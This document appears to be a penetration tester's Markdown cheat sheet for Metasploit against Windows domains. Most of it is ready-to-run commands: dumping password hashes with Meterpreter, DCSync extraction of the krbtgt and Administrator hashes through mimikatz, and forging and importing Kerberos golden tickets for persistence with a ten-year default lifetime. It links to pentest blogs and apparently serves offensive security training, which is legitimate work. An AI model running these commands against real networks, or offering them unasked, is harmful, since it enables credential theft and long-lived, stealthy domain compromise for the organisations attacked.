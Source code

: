 # Metasploit

## 01 - SMB Port

TODO: Fill this info

```
msf exploit(windows/smb/psexec) > set smb::auth [ntlm]
```

## 02 - Interactive Session

### 2.1 - Meterpreter Commands

Dump the credentials.

```
meterpreter > hashdump

meterpreter > run post/windows/gather/smart_hashdump
```

Create a golden ticket for persistence.

```
meterpreter > golden_ticket_create -u <username> -d <domain> -k <nt_hash> -s <SID> -t /path/to/export/golden_ticket.kirbi
```

List kerberos tickets.

```
msf > klist

meterpreter > kerberos_ticket_list
```

Pretty sure when you ran the golden_ticket module it should've stored somewhere on `/home/$USER/.msf4/loot/` or `/root/.msf4/loot/`.

```
meterpreter > kerberos_ticket_use <golden_ticket>
```

You can see the same golden ticket has been imported.

```
msf > klist

meterpreter > kerberos_ticket_list
```

Purge the golden tickets

```
meterpreter > kerberos_ticket_purge
```

Using `dcsync_ntlm`.

```
meterpreter > dcsync_ntlm Administrator

meterpreter > dcsync_ntlm krbtgt

meterpreter > dcsync_ntlm <username>
```

You can execute mimikatz (`kiwi_cmd`) commands.

```
meterpreter > kiwi_cmd '"lsadump::dcsync /user:administrator"'

meterpreter > kiwi_cmd '"lsadump::dcsync /user:krbtgt"'

meterpreter > kiwi_cmd '"lsadump::dcsync /user:<username>"'
```

### 2.2 - Post Modules

Create a golden ticket for persistence

```
msf exploit(multi/handler) > use post/windows/escalate/golden_ticket

msf post(windows/escalate/golden_ticket) > options

Module options (post/windows/escalate/golden_ticket):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DOMAIN                        no        Target Domain
   Domain SID                    no        Domain SID
   END_IN       87608            yes       End in ... Duration in hours, default 10 YEARS (~87608 hours)
   GROUPS                        no        ID of Groups (Comma Separated)
   ID                            no        Target User ID
   KRBTGT_HASH                   no        KRBTGT NTLM Hash
   SESSION                       yes       The session to run this module on
   USE          false            yes       Use the ticket in the current session
   USER                          no        Target User

msf post(windows/esclate/golden_ticket) > set krbtgt_hash <nt_hash>

msf post(windows/esclate/golden_ticket) > set domain <domain>

msf post(windows/esclate/golden_ticket) > set domain sid <domain_sid>
```

By default it is set to "administrator"

```
msf post(windows/esclate/golden_ticket) > set user <username>

msf post(windows/esclate/golden_ticket) > set session <session_ID>
```

By default it is set to 87608 (duration of 10 years)

```
msf post(windows/esclate/golden_ticket) > set end_in <>

msf post(windows/esclate/golden_ticket) > set groups 512,513,518,519,520

msf post(windows/esclate/golden_ticket) > run

msf post(windows/esclate/golden_ticket) > sessions -i <session_ID>
```

---
## References

### Hacking Articles

- [Hacking Articles: Metasploit For Pentester Mimikatz](https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/)

### Pentestlab

- [Pentestlab Blog: Golden Ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)